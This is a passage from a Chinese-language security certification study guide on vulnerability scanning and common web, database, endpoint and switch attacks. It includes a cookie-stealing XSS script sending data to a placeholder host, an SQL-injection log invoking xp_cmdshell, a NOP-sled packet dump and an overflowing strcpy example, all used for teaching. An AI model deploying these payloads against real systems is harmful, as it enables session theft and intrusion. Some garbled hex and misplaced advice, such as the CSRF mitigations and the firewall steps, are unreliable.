*   *识别误报 (`false positives`)*：误报是指在实际上不存在漏洞的情况下却识别出了漏洞的错误。虽然误报令人烦恼，但这种错误类型比漏报（`false negative`）要好。漏报是指扫描器未能识别出的漏洞。所有的误报都必须被识别并从结果中移除，以免对漏洞情况产生不现实的印象。遗憾的是，没有简单的方法可以识别漏报。你可以通过调整敏感性来提高某些扫描器的准确性。例如，许多扫描器默认运行的扫描类型并不适用于你的网络，因此你可能通过从列表中删除那些扫描类型来调整扫描。另一种提高准确性的方法是运行凭据扫描（`credentialed scan`），这让扫描器获取更多信息，使其能够做出更好的评估并产生更少的误报。
*   识别异常：当执行某些类型的漏洞扫描时，扫描器必须向主机发送一个执行文件作为扫描的一部分。其他反恶意软件和防火墙产品可能会阻止此类，除非在反恶意软件或主机防火墙（例如 `Windows` 防火墙、`Windows Defender`）中创建异常以允许该执行文件传递到主机。在 `Windows 10` 中，你可以按照以下步骤创建异常：
    1.  步骤 `1`。按键盘上的 `Windows` 键。如果你的键盘没有 `Windows` 键，请按键盘上的 `Control (Ctrl)` 和 `Escape (Esc)` 键。
    2.  步骤 `2`。点击放大镜或搜索框。在搜索框中输入 `firewall.cpl`。
    3.  步骤 `3`。点击 `firewall.cpl`。打开 `Windows` 防火墙窗口。
    4.  步骤 `4`。点击“通过 `Windows` 防火墙允许应用或功能”。
    5.  步骤 `5`。点击“更改设置”。
    6.  步骤 `6`。如果程序未在列表中，点击“允许另一个应用”。
    7.  步骤 `7`。点击“浏览”，然后进入程序所在目录。
    8.  步骤 `8`。选择程序后，点击“打开”。
    9.  步骤 `9`。在 `Windows` 安全中心窗口中点击“添加”。
    10. 步骤 `10`。在“添加”窗口中，点击“确定”。
    11. 步骤 `11`。关闭 `Windows` 防火墙。
*   此外，可能存在上述内容未涵盖的情况：
*   **优先采取行动**：许多工具帮助你做出响应决策，原因有两点：
    *   为了尽可能地解决最严重的漏洞
    *   为了最有效地利用资源

#### 验证结果并关联数据点

一旦整理了所有结果并实施了异常处理，你就应该将数据与其他源进行关联。

*   **与最佳实践对比**：一旦识别出漏洞，你应该咨询行业最佳实践。
*   **调和结果 (`Reconcile results`)**：调和结果是指对策略、程序和流程进行更改。
*   **审查日志和其他数据源**：在此之前提到的“其他源”包括来自防火墙、路由器和交换机等基础设施设备的数据。如果组织拥有安全信息事件管理（`SIEM`）解决方案，此过程可以简化。`SIEM` 系统接收这些数据。特定的 `SIEM` 系统将在第 `14` 章“使用网络安全工具和技术”中进行详细介绍。
*   **确定趋势**：你可以利用漏洞结果中的信息来识别各种趋势。许多工具具有高级仪表板，可以以图形格式提供这些趋势。例如，`Tenable Security`（`Nessus` 的制造商）的安全仪表板。图 6-4 显示了来自扫描、嗅探和日志漏洞趋势页的表格。
    *   图 6-4 漏洞趋势

### 组织内部目标常见漏洞

为了有效应对漏洞，安全分析师必须熟悉网络中各种设备和系统中常见的漏洞。以下章节描述了各种常见系统的一些常见问题。

#### 服务器

受攻击最常见的两种服务器类型可能是 `Web` 服务器和数据库服务器。让我们看看这些服务器的常见攻击。

#### `Web` 服务器

尽管致力于设计安全的 `Web` 架构，针对基于 `Web` 的系统的攻击仍然发生并成功。以下章节检查了一些最常见的攻击类型，包括维护钩子（`maintenance hooks`）、检查/使用攻击（`time-of-check/time-of-use attacks`）、基于 `Web` 的攻击以及 `XML`、`SAML` 和 `OWASP` 问题。

##### 维护钩子

从软件开发的角度来看，维护钩子是构建在代码中的一组指令，某些知道后门的人可以使用这些指令进行连接，从而在不使用正常访问控制的情况下查看和编辑代码。在许多情况下，它们被用于让供应商更容易为客户提供支持。在其他情况下，它们旨在协助测试和跟踪产品活动，并且在之后不会移除。

##### 注释

维护账户（`maintenance account`）经常与维护钩子混淆。

维护账户（`maintenance account`）是程序员创建的后门账户，用于赋予某人在特定应用程序或操作系统中的完全权限。维护账户通常可以很容易地删除或禁用，但真正的维护钩子（`maintenance hook`）通常是编程中的一个隐藏部分，要禁用困难得多。这两者都可能导致安全问题，因为许多攻击者会首先使用有记录的钩子和维护账户。由于这两个安全问题没有得到解决，每天有惊人数量计算机遭受攻击。

无论维护钩子是如何进入代码的，如果它被黑客获知，他们利用它访问系统，就会引发一个重大的安全问题。你可以采取以下应对措施来降低危险：


*   使用 `IDS`（入侵检测系统）记录任何尝试使用这些钩子之一访问系统的行为。
*   加密系统中包含的所有敏感信息。
*   实施审计以补充 `IDS`。

最佳的解决方案是供应商在产品投入生产之前移除所有维护钩子。应该进行代码审查以识别并移除这些钩子。

#### 检查/使用时间攻击（`Time-of-Check/Time-of-Use Attacks`）

检查/使用时间攻击（`TOCTOU` 攻击）试图利用系统在完成常见任务时发生的事件序列。它们依赖于对多处理系统中当特定系列事件发生时存在的依赖关系的了解。通过尝试在事件之间插入自己并引入更改，黑客可以获得结果的控制权。

通常作为检查/使用时间攻击同义词的术语是竞态条件（`race condition`），尽管这实际上是不同的攻击。在竞态条件攻击中，黑客在指令之间插入自己，引入更改并改变指令的执行顺序，从而改变结果。

针对这些攻击的防御措施包括使关键指令集具有原子性（`atomic`）。这意味着它们要么按顺序完整执行，要么它们所做的更改被回滚或被阻止。此外，系统在执行这些指令集时，锁定其将使用或接触的某些项目的访问也是最佳实践。

#### 不安全的直接对象引用（`Insecure Direct Object References`）

应用程序在生成网页时经常使用对象的实际名称或键。应用程序并不总是验证用户是否对目标对象具有授权。这导致了不安全的直接对象引用漏洞。此类攻击可能来自授权用户，这意味着该用户有权使用应用程序，但正在访问她不应访问的信息。为了防止这个问题，每个直接对象引用都应该经过访问检查。还建议针对此特定问题对应用程序进行代码审查。

#### `XSS`

跨站脚本（`XSS`）发生在攻击者找到网站漏洞并向 `Web` 应用程序注入恶意代码时。许多网站允许甚至将用户输入整合到网页中进行自定义。如果 `Web` 应用程序没有正确验证这些输入，可能会发生两种情况之一：文本可能会渲染在页面上，或者当其他人访问网页时可能会执行脚本。图 6-5 显示了 `XSS` 攻击的高级视图。

图 6-5. `XSS`



下面的 `XSS` 攻击示例旨在从身份验证的用户处窃取 Cookie：

```


```
<SCRIPT>
document.location='http://site.comptia/cgi-bin/script.cgi'?+document.cookie
</SCRIPT>
```

应该对所有输入进行适当验证以防止此类攻击。这涉及识别所有用户提供的输入并测试所有输出。

## 跨站请求伪造（CSRF）

跨站请求伪造（CSRF）是一种攻击会导致终端用户在其当前已验证的 Web 应用程序上执行非愿操作的攻击。与 XSS 不同，在 CSRF 中，攻击者利用的是网站对浏览器的信任，而不是相反。网站认为请求来自用户的浏览器，并实际上是由用户发出的。然而，请求被植入了用户的浏览器中。通常当用户点击一个已经包含要注入代码的 URL 时，请求就会到达那里。这种攻击如图 6-6 所示。

图 6-6. CSRF



以下措施有助于防止 Web 应用程序中的 CSRF 漏洞：

- 使用 `URLEncode` 和 `HTMLEncode` 等技术，根据输入参数中的特殊字符对所有输出进行编码，以防止恶意脚本执行。
- 根据特殊字符（那些允许恶意脚本执行的字符）过滤输入参数。
- 根据输入参数中的特殊字符过滤输出。

## 点击劫持（Click-Jacking）

使用点击劫持攻击的黑客在看似真实的页面上构建一个透明的页面或框架，诱导用户点击某些内容。当用户这样做时，他实际上点击的是不同的 `URL`。在许多情况下，网站或应用程序可能会诱用户输入凭据，这些凭据稍后会被攻击者使用。这种攻击如图 6-7 所示。

图 6-7. 点击劫持



用户提供此用户名和密码。点击劫持大部分责任在于网站所有者。在设计 Web 应用程序时，可以使用 `X-FRAME-OPTIONS` 头部来限制被框架。此选项应设置为 `DENY`，这几乎可以确保点击劫持失败

## 会话管理（Session Management）

会话管理涉及采取措施防止会话劫持。当黑客能够识别已验证用户的会话 `ID` 时，就会发生会话劫持。图 6-8 描述了会话劫持攻击。黑客需要通过几种方法识别或发现会话 `ID`：

- 猜测 `ID`：这涉及收集会话 `ID` 并猜测分配给用户的有效 `ID`。
- 使用窃取的 `ID`：虽然 `SSL` 连接隐藏了这些 `ID`，但许多 `ID` 通过 `XSS` 攻击和获取计算机上的 `cookie` 被窃取。

图 6-8. 会话劫持



> **关键主题**
> - 将 `IP` 地址等启发式信息编码进会话 `ID`。
> - 使用 `SecureModule`，它通过附加哈希修改会话 `ID`。哈希由会话 `ID`、请求头中的 `UserAgent` 头部以及存储在服务器上的密钥生成。`SecureModule` 使用此值验证每个 `cookie` 请求。

## 输入验证（Input Validation）

目前讨论的许多攻击是因为 Web 应用程序没有验证用户（或黑客）输入的数据。输入验证是检查所有输入是否符合正确格式和正确长度的过程。在许多情况下，这些验证器使用字符或模式的黑名单或白名单。黑名单查找要阻止的字符或模式。它可能会阻止合法请求。白名单查找允许的字符或模式并只允许这些内容。应该检查并验证输入的长度以防止缓冲区溢出。这种攻击类型在本章稍后讨论。

## SQL 注入（SQL Injection）

`SQL` 注入攻击从客户端到应用程序的输入数据中插入或注入 `SQL` 查询。这种类型的攻击可能导致从数据库读取敏感数据、修改数据、对数据库执行管理操作、恢复给定文件的内容，甚至向操作系统发布命令。

图 6-9 显示了普通用户如何从连接到 Web 服务器的数据库请求信息，以及黑客如何通过更改命令请求相同的信息并获取用户名和密码。虽然从图 6-9 中这并不显而易见，但这种攻击通过输入验证形式的安全规则被防止。

图 6-9. SQL 注入

识别日志中的 `SQL` 注入攻击工作可以使用如微软的 `Log Parser` 等商业工具变得更加简单。该命令行工具使用类似于 `SQL` 的命令，可用于搜索和定位特定类型的错误。要查找的一种类型是 `500` 错误（内部服务器错误），这通常意味着 `SQL` 注入。示例 6-1 显示了一个日志条目的错误。在这种情况下，`CREATE TABLE` 语句的存在表明存在 `SQL` 注入。

示例 6-1 带有 SQL 注入的日志条

```
GET /inventory/Scripts/ProductList.asp
showdetails=true&idSuper=0browser&pt=showprods&Type=588
idCategory=60&idProduct=66;CREATE%20TABLE%20[X__6624] ([id]%20int
20NULL%20
IDENTITY(1,1),20[ResultTxt]%20varchar(4000)%20NULL%20 
Insertinto20[X_6858] (ResultTxt)%20exec%20master.do_xp_\cmdshell111%20Dir%20:\;
Insertinto20[X_6858]20values%20('g_over');
exec%20master.do_sp_droxtendeddeproc%20'xp_cmdshell 300
```

以下措施可以帮助你防止此类攻击：

## 关键主题

- 使用适当的输入验证。
- 对特殊字符使用黑名单或白名单。
- 在 `ASP.NET` 中使用参数化查询并在 `Java` 中使用预处理语句在 `SQL` 语句传递到数据库之前对危险字符进行转义。

## 错误的错误和异常处理

Web 与其他所有应用程序一样也会错误和异常，此类问题是可以预料的。然而，应用程序响应错误和异常的方式了安全性是否会被破坏。问题之一是错误消息可能会暴露黑客可能认为有用的系统信息。因此，在开发应用程序时，所有描述问题的错误消息应尽可能通用。此外，你可以使用如 `OWASP Zed Attack Proxy` 等工具让应用程序生成错误。

## 敏感数据的存储不当

在此上下文中，敏感信息包括用户名、密码、加密密钥以及应用程序运行需要但一旦发现就会导致危害的路径。确定保护这些信息的正确方法至关重要且并不容易。虽然情况并非总是如此，但不硬编码密码是一条被接受的规则。相反，当密码包含在应用程序代码中，应使用加密进行保护。这使得它们难以更改、反转或发现。

在配置文件中存储此类敏感信息也会带来问题。此类文件通常是可以发现的，即使它们被隐藏，如果它们位于标准或默认位置，也可以通过使用软件演示版本发现它们。无论使用何种方法，都应该对保护这些敏感形式的数据进行深思。

以下措施可以帮助你防止敏感信息从存储泄露：

- 确保存储这些数据的内存位置已锁定。
- 确保附加到敏感数据的 `ACL`（访问控制列表）已正确配置。
- 实现适当的加密。

## 缓冲区溢出

缓冲区是用于存储信息的系统内存区域。缓冲区溢出是在提交的数据量大于缓冲区能够处理量时发生的攻击。通常，这种攻击的可能是由于应用程序或操作系统代码编写不当导致的。这可能导致恶意代码的注入，主要是拒绝服务（`DoS`）攻击或 `SQL` 注入。

为了防止此问题，组织应该确保所有操作系统和应用程序都已更新最新的更新、服务包和补丁。此外，程序员应该妥善测试所有应用程序以检查溢出情况。

黑客可以利用提交过多数据来利用这种现象，这可能导致错误，在某些情况下，如果黑客可以找到可以执行命令的区域，可以在机器上执行命令。并不是所有攻击都是设计用于执行命令的。攻击可能导致计算机锁定，例如 `DoS` 攻击。

包含一系列无操作（`NOP`）指令字符串后跟一个命令的数据包通常表示一种称为 `NOP` 滑的缓冲区溢出攻击。此类攻击的目的是让 `CPU` 找到可以执行命令的地方。示例 6-2 显示了一个嗅探器看到的数据包。

## 示例 6-2 嗅探器看到的数据包

| TCP 连接请求 |
| :--- |
| --- 14/03/2014 15:40:57.910 |
| 68.144.193.124 : 4560 TCP Connected ID = 1 |
| --- 14/03/2014 15:40:57.910 |
| 状态码: OK |
| 68.144.193.124 : 4560 TCP Data In Length 697 bytes |
| MD5 = 1932C32EA6F55EE238629100455C17 |
| --- 14/03/2014 15:40:57.910 |
| 0000 90 90 90 90 90 90 90 90 90 |
| 0010 90 90 90 90 90 90 90 90 90 |
| 0020 90 90 90 90 90 90 90 90 |
| 0030 90 90 90 90 90 90 90 |
| 0040 90 90 90 90 90 90 90 |
| 0050 90 90 90 90 90 90 90 |
| 0060 90 90 90 90 90 90 90 |
| 0070 90 90 90 90 90 90 90 |
| 0080 90 90 90 90 90 90 90 |
| 0090 90 90 90 90 90 90 90 |
| 00A0 90 90 90 90 90 90 90 |
| 00B0 90 90 90 90 90 90 90 |
| 00C0 90 90 90 90 90 90 90 |
| 00D0 90 90 90 90 90 90 90 |
| 00E0 90 90 90 90 90 90 90 |
| 00F0 90 90 90 90 90 90 90 |
| 0100 90 90 90 90 90 90 90 F3 77 |
| 0110 90 90 90 FF 63 64 90 90 90 |
| 0120 90 90 90 90 90 90 90 90 |
| 0130 90 90 90 90 90 10 5A 4A 33 C9 66 B9 |
| 0140 66 01 80 34 0A 92 EA FA E5 08 EB 70 |
| 0150 99 98 99 93 21 69 94 6E 12 99 25 83 34 |
| 0160 12 9D 91 12 21 EA 5A 9A 6A 12 E1 9A 62 |
| 0170 E17 8B 92 12 3D 8A 7D 4F C8 12 9A 62 |
| 0180 62 1B 63 F3 97 00 61 C9 5A 5D 2E 7B |
| 0190 70 C60 C7 12 54 12 DF 9B 5A 58 78 98 A50 |
| 01A0 A50 51 92 11 2F 85 9A 58 78 98 58 29 |
| 01B0 9A 5B 9A 63 12 6E 15 97 2F 43 70 01 |
| 01C0 99 99 99 91 5A 9F 64 CE 66 65 32 41 93 9D |
| 01D0 C1 70 91 95 99 99 C9 93 79 91 3B 96 C |
| 01E0 61 69 12 41 55 92 99 4A 59 10 10 83 89 |
| 01F0 61 5A 66 6E 63 98 44 64 61 61 |
| 0200 90 90 90 90 90 90 90 4D F3 77 |
| 0210 90 90 90 FF 63 64 90 90 90 90 |
| 0220 90 90 90 90 90 90 90 90 90 |
| 0230 90 90 90 90 90 90 10 5A 4A 33 C9 66 B9 |

## 示例 6-3 缓冲区溢出攻击

```c
#include

char *code = "AAAABBBCCCCDD";//包括字符 '\0' 在内16字节

void main() {
  char buf[8];
  strcpy(buf,code);
}
```


# 整数溢出

在这个示例中，`16` 个字符被发送到一个只有 `8` 字节的缓冲区。如果有适当的输入验证，缓冲区溢出攻击会导致访问冲突。如果没有适当的输入验证，将超出分配的空间，内存栈底部的数据将被覆盖。

整数溢出发生在数学运算尝试创建一个超出可用空间范围的数值时。处理器的寄存器宽度决定了可以表示的值范围。此外，程序可能会假设变量始终包含正值。如果该变量是符号整数类型，溢出可能会导致它绕回并变成负数。同样，从一个小的无符号值中减去可能会导致它绕回到一个很大的正值，这可能也是一种意想不到的行为。

你可以通过以下方法缓解整数溢出攻击：


- 使用严格的输入验证。
- 使用会执行自动边界检查的语言或编译器。
- 选择能够包含计算中所有可能值的整数类型。这减少了对整数类型转换（将一种数据类型的实体转换为另一种数据类型）的需求，而这是缺陷的主要来源。

# 竞态条件 (Race Conditions)

竞态条件是一种攻击手段，黑客在指令之间插入自身，引入更改并改变指令的执行顺序，从而改变结果。

竞态条件的一种类型是“检查时间/使用时间”（time-of-check/time-of-use）。在这类攻击中，系统在检查条件和显示检查结果之间发生了变化。例如，考虑以下场景：上午 `10:00`，一名黑客获得了一个有效的身份验证令牌，允许其对数据库进行读取/写访问。上午 `10:15`，安全管理员收到来自入侵检测系统（`IDS`）的警报，称某数据库管理员正在执行异常交易。上午 `10:25`，安全管理员重置了数据库管理员的密码。上午 `11:30`，安全管理员仍然收到来自 `IDS` 的关于同一用户进行异常交易的警报。在这种情况下，黑客创建了一个竞态条件，干扰了正常的身份验证流程。黑客使用旧密码保持登录状态，并仍然能够更改数据。

应对此类攻击的防御措施是确保关键指令集要么按顺序完整地执行，要么回滚并防止更改。此外，系统在执行这些指令集时，对将访问的某些项进行锁定也是最好的。

# 数据库服务器 (Database Servers)

在许多方面，数据库是攻击者的“圣杯”。它通常是存储敏感信息的地方。在考虑数据库安全时，你需要理解以下术语：


- **推理 (Inference)**：当某人访问某一级的信息并允许其推断出另一层级的信息时，就会发生推理。推理的主要缓解技术是多重实例化（polyinstantiation），即通过在新对象中使用不同的值，从另一个对象开发出更详细的版本。这防止了低级数据库用户推断出高级数据的存在。
- **聚合 (Aggregation)**：聚合被定义为将同一敏感性级别的单元单元进行组装或编译，并产生的数据总体的敏感性高于单个的敏感性。因此，你可能将聚合视为实现推理相同目标的不同方式，即获取自己无权访问的层级的数据信息。
- **污染 (Contamination)**：污染是将一个敏感性或“知情需要”级别的数据与另一个级别的数据混织或混合。妥善实施安全级别是防御这些问题的最佳方法。
- **数据挖掘仓库 (Data mining warehouse)**：数据仓库是来自异构数据库的信息存储库。它允许将多个数据源不仅存储在一个处，而且以某种方式进行组织，以减少数据冗余（称为数据归一化），并使用更高级的数据挖掘工具来处理数据，以发现以前可能显而易见的关系。在提供优势的同时，它们也带来了更多的安全挑战。

# 端点 (Endpoints)

在大多数网络中，客户端系统使用最广泛，因为它们是用户最依赖的访问资源的系统。客户端系统从台式系统到笔记本电脑以及所有类型的移动设备。在本节中，我们主要关注台式机和笔记本电脑的漏洞。

由于客户端系统如此，针对这些系统的新攻击似乎每天都会出现。安全从业人员必须确保他们知道哪些客户端系统连接到了网络，以便确保实施了适当的控制措施来保护它们。

传统的客户端漏洞通常针对网络浏览器、浏览器插件和电子邮件客户端。它们也可以通过部署的应用程序和操作系统实施。客户端系统还倾向于部署某些不需要的服务。通常，客户端系统暴露在恶意的服务器面前。此外还有一个事实是，大多数普通用户并不精通安全，并且往往在无意中在客户端系统上引起安全问题。

客户端系统的安全架构应包括涵盖以下领域的策略和控制：

- 只应部署经过许可且受支持的操作系统。这些操作系统应该通过所有供应商的补丁、安全更新和服务包进行更新。
- 每个客户端系统上都应该部署反恶意软件和反病毒软件。对该软件的更新应该是自动完成的，以确保涵盖最新的漏洞。
- 在客户端系统上部署防火墙和基于主机的入侵检测是一个好主意。
- 你应该使用驱动器加密来保护硬盘上的数据。
- 应该为用户发放执行其工作所需的最小权限的用户账户。需要管理权限的用户应该同时拥有一个管理账户和一个普通账户，并且仅在执行管理职责时使用管理账户。
- 在客户端级进行部署之前，你应该测试所有的更新和补丁，包括针对操作系统和应用程序的补丁。

`Applet`（小程序）是执行特定任务的小型应用程序。它运行在专用的小部件引擎或更大的程序中，通常作为插件运行。`Java applets` 和 `ActiveX applets` 都是例子。攻击者经常部署看似来自合法来源的恶意小程序。这些小程序可用于破坏系统。务必确保客户端仅从有效的供应商下载小程序。此外，确保任何包含小程序的应用程序都通过补丁保持最新状态。

客户端系统包含多种类型的缓存。`DNS` 缓存存储了互联网上的查询结果，它是最经常攻击的缓存。攻击者试图向 `DNS` 缓存注入错误的 `IP` 地址。他们通过向受影响的系统发送恶意回复来实现。对于许多其他问题，你应该确保操作系统是最新的。此外，应该培训用户永远不要点击未经经验的链接。

# 网络基础设施 (Network Infrastructure)

路由器和交换机等网络基础设施设备存在漏洞。网络基础设施设备在网络安全中起作用。为了安全地配置和维护这些设备，你必须对操作有基本的了解。以下章节介绍了这些设备，并涵盖了增强其安全的特定步骤。

# 交换机 (Switches)

交换机是智能设备，运行在 `OSI` 模型的第 `2` 层。我们说映射到这一层是因为根据 `MAC` 地址做出交换决策，而 `MAC` 地址位于第 `2` 层。这一过程被称为透明桥接（见图 6-10）。

图 6-10 透明桥接



交换机通过消除冲突提高了比集线器的性能。每个交换机端口都是一个冲突域，而集线器的所有端口都在同一个冲突域内。从安全角度来看，交换机更安全，因为连接到任何端口的嗅探器只能捕获目标为该端口或源自该端口的流量。

然而，某些交换机既是路由器又是交换机，我们称它们为三层交换机，因为它们既能路由又交换。

在使用交换机时，要意识到交换机之间的冗余连接是理想的，但可能会引入交换环路，这会对网络产生破坏性影响。大多数交换机运行生成树协议（`STP`）来防止交换环路。你应该确保交换机执行此操作并启用 `STP`。

## MAC 溢出 (MAC Overflow)

> 关键主题

防止交换机的安全问题涉及防止 `MAC` 地址溢出攻击。从设计上讲，交换机将每个端口放在自己的冲突域中，这就是为什么连接到交换机单个端口的嗅探器只能获取该端口的流量，而无法获取其他端口的流量。然而，一种被称为 `MAC` 地址溢出的攻击可以导致交换机的 `MAC` 地址表填充不存在的 `MAC` 地址。使用免费工具，黑客可以向交换机发送数千个不存在的 `MAC` 地址。交换机只能为表分配有限的内存，在某个时刻，它会被虚假的 `MAC` 地址填充。这阻止了设备在 `MAC` 地址表中创建内容地址内存（`CAM`）条目（`MAC` 地址）。当这种情况发生时，交换机接收到的合法流量将泛洪到每个端口。记住，这就是交换机在找不到 `MAC` 地址表时的行为。黑客可以捕获所有流量。图 6-11 显示了这种攻击的工作原理。

### 图 6-11. MAC 溢出攻击



防止这些攻击，你应该通过基于端口的安全策略来限制每个端口允许的 `MAC` 地址数量。

## ARP 毒骗

中间人攻击的一种实现方法是通过毒骗交换机上的 `ARP` 缓存。攻击者通过用自己的 `MAC` 地址响应另一台计算机 `IP` 地址的 `ARP` 请求来实现这种毒骗。在 `ARP` 缓存成功投毒后，当发生 `ARP` 解析时，两台计算机都将攻击者的的 `MAC` 地址列为映射到另一台计算机 `IP` 地址的 `MAC` 地址。结果是它们都向攻击者发送数据，从而将其置于“中间”。

在 `Cisco` 交换机上防止 `ARP` 毒骗有两种缓解技术可用：

-   **动态 ARP 检查 (DAI)**：此安全功能会拦截所有 `ARP` 请求，并将每个响应的 `MAC` 地址和 `IP` 信息与受信绑定表中的 `MAC-IP` 绑定进行比较。该表通过监控所有针对 `IP` 地址的 `DHCP` 请求并维护每个 `IP` 地址到 `MAC` 地址的映射而构建（这是 `DHCP` 嗅探的一部分）。如果检测到错误的映射，交换机将拒绝该数据包。
-   **DHCP 嗅探**：`DHCP` 嗅探的主要目的是防止针对 `DHCP` 数据库的毒骗攻击。这本身不是一种交换机攻击，但它的功能之一可以支持 `DAI`。它创建了来自受信 `DHCP` 服务器的 `IP` 地址到 `MAC` 地址的映射，该映射可用于 `DAI` 的验证过程。

你必须同时实现 `DAI` 和 `DHCP` 嗅探，因为 `DAI` 依赖于 `DHCP` 嗅探。

## VLAN

企业级交换机能够创建虚拟局域网（`VLAN`）。这些是交换机的逻辑划分，将端口相互隔离开，就像它们位于不同的局域网中一样。`VLAN` 可以跨越多个交换机，这意味着连接到网络不同部分交换机的设备可以放在同一个 `VLAN` 中，无论物理位置如何。

`VLAN` 在敏感设备和网络其余部分之间增加了一个隔离。例如，如果只有两台设备可以连接到 `HR` 服务器，那么可以将这两台设备和 `HR` 服务器放置在一个与其它 `VLAN` 隔离的 `VLAN` 中。`VLAN` 之间的流量只能通过路由器发生。可以使用路由器来实现访问控制列表（`ACL`），以控制 `VLAN` 之间允许的流量。

表 6-2 列出了部署 `VLAN` 的优缺点。

### 表 6-2. 部署 VLAN 的优缺点

| 优点 | 缺点 |
| --- | --- |
| 灵活性：消除了同一局域网（或在此情况下为 `VLAN`）中的设备必须位于同一位置的要求。 | 保护 `VLAN` 需要管理开销。 |
| 性能：创建更小的广播域（每个 `VLAN` 都是一个广播域）可以提高性能。 | 配置错误可能导致设备隔离。 |
| 安全性：在第 `2` 层和第 `3` 层提供了更多隔离。 | `VLAN` 数量的限制可能会在大型网络中引起问题。 |
